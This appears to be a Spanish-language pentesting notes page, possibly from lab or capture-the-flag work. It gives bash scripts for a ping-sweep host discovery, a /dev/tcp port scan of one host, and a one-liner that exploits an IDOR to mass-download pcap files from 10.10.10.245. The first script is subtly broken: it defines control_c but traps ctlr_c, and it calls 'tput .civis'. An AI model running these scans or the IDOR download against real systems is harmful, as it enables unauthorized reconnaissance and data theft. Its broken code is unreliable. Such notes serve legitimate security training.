 # BASH

En este apartado iremos poniendo utilidades y scripts en bash.

## Host discovery

Script para descubrir host dentro de una red:

```bash
#!/bin/bash

function control_c(){
	echo -e "\n\n[!] Saliendo...\n"
	tput cnorm
	exit 0
}

# Ctlr+C
trap ctlr_c INT

tput .civis

for i in $(seq 1 254); do
	timeout 1 bash -c "ping -c 1 192.168.11.$i" &>/dev/null && echo "[+] El host 192.168.11.$i - ACTIVE" &
done

wait
tput cnorm
```

## Port discovery

Script para descubrir puertos abiertos de un maquina:

```bash
#!/bin/bash

function ctlr_c(){
    echo -e "\n\n[!] Saliendo...\n"
    tput cnorm
    exit 1
}

# Ctlr+C
trap ctlr_c INT

tput civis
for port in $(seq 1 65535); do
    timeout 1 bash -c "echo '' > /dev/tcp/192.168.11.160/$port" 2>/dev/null && echo "[+] Port $port - OPEN" &
done
wait
tput cnorm
```

## Descarga IDOR

Script que aprovecha un idor para descargar de forma masiva en modo **oneliner**:

```bash
for i in {0..500} ; do wget http://10.10.10.245/download/${i} -O pcaps/${i}.pcap 2>/dev/null || break; done; rm pcaps/${i}.pcap
```
